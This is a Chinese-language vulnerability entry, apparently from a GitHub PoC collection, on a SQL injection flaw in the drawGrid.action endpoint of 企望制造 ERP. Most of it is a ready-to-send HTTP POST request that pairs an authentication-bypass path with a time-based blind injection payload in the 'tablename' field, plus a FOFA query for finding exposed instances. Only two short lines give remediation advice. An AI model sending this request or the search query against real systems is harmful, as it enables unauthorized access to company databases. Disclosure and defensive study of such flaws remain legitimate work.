

# 企望制造ERP drawGrid.action存在SQL注入漏洞

# 漏洞描述

企望制造eERP系统由上海企望信息科技有限公司开发，企望制造深知纸箱行业特点和业务流程的多位IT专家打造，具有国际先进的管理方式，将现代化的管理方式融入erp软件中，让企业分分钟就拥有科学的管理经验。 erp的功能包括成本核算、报价定价、订单下达、生产下单、现场管理等多种功能。企望制造ERP drawGrid.action存在SQL注入漏洞

# 影响版本

企望制造ERP系统

# **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 是 | 已公开 | 已公开 | 已知 |

## 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

# 漏洞复现

FOFA：app="企望-ERP系统"

POC/EXP：

POST /mainFunctions/drawGrid.action;cookieLogin.action HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/117.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: JSESSIONID=7256C68B9C89F11BE2F841C3F1CAA415
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 29

tablename=1';WAITFOR DELAY '0:0:5'--

# 修复方案

关闭互联网暴露面或接口设置访问权限

升级至安全版本

---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
